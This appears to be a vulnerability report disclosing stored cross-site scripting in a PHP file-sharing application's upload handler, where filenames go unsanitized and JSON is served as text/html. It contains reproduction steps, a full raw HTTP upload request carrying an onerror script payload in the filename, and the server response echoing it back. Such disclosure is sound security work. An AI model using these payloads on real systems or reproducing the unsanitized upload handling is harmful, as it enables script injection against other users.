 # Description:

Because of lacking of sanitizer of input data at all of upload functions in `webroot/dzz/attach/Uploader.class.php` and return wrong response content-type of output data in `webroot/dzz/attach/controller.php`, The Authenticated user (not an admin) can injection malicious code into `fileName` and craft a specific html file, then user click on that file the script will be executed.

# To Reproduce


Steps to reproduce the behavior:
1. Go to any textarea form and use upload function 
2. Inject malicious script into fileName like ``<img src=x onerror=alert(1);``
3. Craft an specific html file to send request to server in webclient, when user click on that file malicious script will be executed
### Request

```
POST /index.php?mod=attach&op=controller&action=uploadfile&encode=utf-8 HTTP/1.1
Host: 172.16.0.12:4444
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:90.0) Gecko/20100101 Firefox/90.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X_Requested_With: XMLHttpRequest
Content-Type: multipart/form-data; boundary=---------------------------217491654215499331073774419025
Content-Length: 893
Origin: http://172.16.0.12:4444
Connection: close

-----------------------------217491654215499331073774419025
Content-Disposition: form-data; name="id"

WU_FILE_0
-----------------------------217491654215499331073774419025
Content-Disposition: form-data; name="name"

<img src=x onerror=alert(1);>.jpg
-----------------------------217491654215499331073774419025
Content-Disposition: form-data; name="type"

image/jpeg
-----------------------------217491654215499331073774419025
Content-Disposition: form-data; name="lastModifiedDate"

8/28/2021, 10:51:39
-----------------------------217491654215499331073774419025
Content-Disposition: form-data; name="size"

24041
-----------------------------217491654215499331073774419025
Content-Disposition: form-data; name="upfile"; filename="<img src=x onerror=alert(1);>kietna.jpg"
Content-Type: image/jpeg

1111
-----------------------------217491654215499331073774419025--

```

###IMAGE

![image](https://user-images.githubusercontent.com/54875703/131205879-7b7080d9-1a78-4c64-a7b2-877a869315e8.png)

![image](https://user-images.githubusercontent.com/54875703/131205882-3cbac43a-ce85-4105-96bd-378bc8b18756.png)

![image](https://user-images.githubusercontent.com/54875703/131205889-4b86c2c2-efb9-4501-99a2-010a01f71d6f.png)

![image](https://user-images.githubusercontent.com/54875703/131205893-eaa03c30-136b-4e6b-9873-2ba234992ea2.png)


### Response

```
HTTP/1.1 200 OK
Date: Sat, 28 Aug 2021 03:58:15 GMT
Server: Apache/2.4.48 (Win64) OpenSSL/1.1.1k PHP/7.3.29
X-Powered-By: PHP/7.3.29
Set-Cookie: ORRL_2132_saltkey=DgE37EkI; expires=Mon, 27-Sep-2021 03:58:15 GMT; Max-Age=2592000; path=/; HttpOnly
Set-Cookie: ORRL_2132_lastvisit=1630119495; expires=Mon, 27-Sep-2021 03:58:15 GMT; Max-Age=2592000; path=/
Set-Cookie: ORRL_2132_sid=GvNq0a; expires=Sun, 29-Aug-2021 03:58:15 GMT; Max-Age=86400; path=/
Set-Cookie: ORRL_2132_lastact=1630123095%09index.php%09attach; expires=Sun, 29-Aug-2021 03:58:15 GMT; Max-Age=86400; path=/
Content-Length: 1009
Connection: close
Content-Type: text/html; charset=utf-8

{"state":"SUCCESS","url":"index.php?mod=io&op=thumbnail&width=0&height=0&original=1&path=MXRyUU8zN0RGMXlTTFVUUmI4MkZRWFNaU2k1UXFxNnJ4STVUYnJTSjFTcjFrb3M","title":"<img src=x onerror=alert(1);>kietna.jpg","original":"<img src=x onerror=alert(1);>kietna.jpg","type":".jpg","size":4,"attach":{"aid":"2","filename":"<img src=x onerror=alert(1);>kietna.jpg","filetype":"jpg","filesize":"4 B ","attachment":"dzz\/202108\/28\/115309kip2jipijtji4nq6.jpg","remote":"0","copys":"0","md5":"b59c67bf196a4758191e42f76670ceba","thumb":"0","dateline":"1630122789","unrun":"0","url":"index.php?mod=io&op=thumbnail&width=0&height=0&original=1&path=MXRyUU8zN0RGMXlTTFVUUmI4MkZRWFNaU2k1UXFxNnJ4STVUYnJTSjFTcjFrb3M","img":"index.php?mod=io&op=thumbnail&width=256&height=256&original=0&path=MXRyUU8zN0RGMXlTTFVUUmI4MkZRWFNaU2k1UXFxNnJ4STVUYnJTSjFTcjFrb3M","isimage":1,"apath":"MXRyUU8zN0RGMXlTTFVUUmI4MkZRWFNaU2k1UXFxNnJ4STVUYnJTSjFTcjFrb3M","dpath":"MXRyUU8zN0RGMXlTTFVUUmI4MkZRWFNaU2k1UXFxNnJ4STVUYnJTSjFTcjFrb3M"}}

```
